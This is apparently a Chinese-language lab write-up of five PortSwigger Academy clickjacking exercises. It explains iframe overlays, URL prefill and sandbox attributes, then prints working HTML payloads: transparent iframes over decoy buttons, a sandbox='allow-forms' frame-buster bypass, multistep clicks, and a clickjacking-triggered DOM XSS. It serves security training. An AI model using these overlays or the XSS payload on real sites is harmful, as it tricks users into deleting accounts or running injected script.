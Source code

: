 ```yaml
---

title: PortSwigger--Clickjacking
categories: [渗透靶场, PortSwigger]

---
```




## 知识扩展

- 点击劫持

  通过HTML标签<iframe>在受害者网页之上嵌入页面/文档元素，诱使用户点击

  通过设置X-Frame-Options HTTP头阻止页面被嵌入到<iframe>中可有效防止点击劫持攻击

  

- URL参数预填充

  通过在URL中附加查询参数，用户可以访问一个带有预设数据的页面，无需手动在输入框中输入数据

  

  例如：https://www.example.com/register?email=user@example.com

  客户端页面在加载时，JavaScript代码或后端逻辑会读取URL中的email参数，并将其值user@example.com自动填充至Email输入框中

  

- Sandbox

  sandbox是<iframe>标签的常用属性，对<iframe>中的内容行为进行限制

  通过设置sandbox可以有效防止<iframe>标签内的脚本执行，表单提交，弹出窗口等恶意行为

  

- Sandbox参数值

  allow-same-origin：允许内容与父文档共享相同的原点
  
  allow-script：允许iframe内运行脚本
  
  allow-popups：允许iframe内的内容进行弹窗
  
  allow-forms：允许表单提交
  
  

## 1.Basic clickjacking with CSRF token protection

（1）用户wiener登录，F12进入开发者模式确认Delete account元素的大概位置，进入Go to exploit server模块

![image-20240829093157750](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408290931841.png)

![image-20240830092532062](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408300925185.png)

![image-20240829093949900](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408290939961.png)

（2）Body字段填入以下内容，设置Top值为519，left为190，Opacity为0.1

```py
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top:519px;
        left:190px;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe src="https://0a7e00be0305478181fffc7000d70064.web-security-academy.net/my-account"></iframe>
```

![image-20240830095644140](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408300956224.png)

（3）点击View exploit进行页面预览，发现Click Me元素的偏差稍微有点大，为了确保Click Me和Delete account重叠，需要对top和left的值进行调整适当调整

![image-20240830095721136](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408300957210.png)

（4）调整结果和最终数据如下（除了top和left的值，还需要调整opacity的值为0.0001，以此来达到页面其他元素几乎完全透明的效果，同时opacity的值为0.0001也是靶场的通过条件之一）

```python
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:510px;
        left:65px;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe src="https://0a7e00be0305478181fffc7000d70064.web-security-academy.net/my-account"></iframe>
```

![image-20240830100036725](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408301000817.png)

![image-20240830100321821](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408301003905.png)

（5）点击Deliver exploit to victim，通关靶场

除了手搓代码生成HTML劫持页面外，还可以使用Burpsuite中的Clickbandit模块，自动生成HTML劫持页面，但是生成的HTML页面尽管能实现点击劫持的效果，却不知何种原因导致Deliver exploit to victim时无法通关靶场

![image-20240829103901678](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291039748.png)

（6）利用Burpsuite中的Clickbandit模块自动生成HTML劫持页面操作步骤

![image-20240829201234438](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408292012504.png)

![image-20240829201324215](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408292013285.png)

![image-20240829201406949](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408292014040.png)

（7）选中Delete account --》点击Finish --》点击Toggle transparency调整页面透明度

![image-20240829201429887](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408292014967.png)

![image-20240829201446068](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408292014141.png)

![image-20240829201500475](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408292015543.png)

（8）完成上诉步骤后点击save，浏览器将会自动下载生成的HTML劫持页面，此时再进入Go to exploit server中进行Deliver exploit to victim

![image-20240829201611505](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408292016566.png)

![image-20240829201658049](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408292016143.png)

## 2.Clickjacking with form input data prefilled from a URL parameter

（1）用户wiener登录，进行URL参数预填充

![image-20240829111848643](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291118707.png)

![image-20240829112324915](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408300001654.png)

（2）需要注意的是此处<iframe> src 指向的地址需要完成URL参数预填充，后续操作同Lab1一致

```py
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://0a2a00bb040d4649839319ac00a3006e.web-security-academy.net/my-account?email=11@qq.com"></iframe>

```

![image-20240829114930120](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291149184.png)

## 3.Clickjacking with a frame buster script

（1）用户wiener登录，进入Go to exploit server模块

![image-20240829151046353](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291510435.png)

（2）Body部分插入Lab2一样的HTML代码，点击View exploit进行预查看时发现Click Me 无法点击

```python
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe src="https://0ad400cf04705ea88048122c001a0027.web-security-academy.net/my-account?email=222@qq.com"></iframe>
```

![image-20240829153319368](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291533431.png)

（3）在<iframe> src中增添属性sandbox设置其值为"allow-forms"（允许<iframe>中的内容进行表单提交）

```py
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click Me</div>
<iframe sandbox="allow-forms" src="https://0ad400cf04705ea88048122c001a0027.web-security-academy.net/my-account?email=222@qq.com"></iframe>
```

![image-20240829153652391](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291536454.png)

## 4.Exploiting clickjacking vulnerability to trigger DOM-based XSS

（1）表单页面进行数据提交测试，发现name输入框中的内容回显

![image-20240830001833713](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408300018877.png)

![image-20240830001913162](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408300019286.png)

（2）进行源码查看，发现innerHTML属性，name输入框的值直接返回给feedbackResult

![image-20240830102147649](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408301021738.png)

![image-20240830102304964](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408301023064.png)

（3）进行DOM型XSS验证

![image-20240829160614415](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291606494.png)

（4）Go to exploit server模块进行Domxss+点击劫持的利用

```py
<style>
iframe {
position:relative;
width:1000px;
height: 700px;
opacity: 0.0001;
z-index: 2;
}
div {
position:absolute;
top:620px;
left:40px;
z-index: 1;
}
</style>
<div>Click me</div>
<iframe
src="https://0a8100b504bc65c5821d6f2d00fa003c.web-security-academy.net/feedback/?name=<img src=1 onerror=alert(1)>&email=111@qq.com&subject=111&message=111#feedbackResult"></iframe>
```

![image-20240829161013477](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291610568.png)

![image-20240829163727870](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291637945.png)

## 5.Multistep clickjacking

（1）用户wiener登录，点击Delete account功能需要进行下一步的确认

![image-20240829164018636](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291640719.png)

![image-20240830002338048](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408300023171.png)

（2）因此在HTML劫持页面中需要设置两个功能按钮

```py
<style>
			iframe {
				position:relative;
				width: 1000px;
				height: 700px;
				opacity: 0.0001;
				z-index: 2;
			}
		   .firstClick, .secondClick {
				position:absolute;
				top:495px;
				left:40px;
				z-index: 1;
			}
		   .secondClick {
				top:290px;
				left:210px;
			}
		</style>
		<div class="firstClick">Click me first</div>
		<div class="secondClick">Click me next</div>
		<iframe src="https://0a32006d04e0c08d81e84fa700480021.web-security-academy.net/my-account"></iframe>
```

![image-20240829164205810](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291642894.png)

![image-20240829164219644](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408291642712.png)
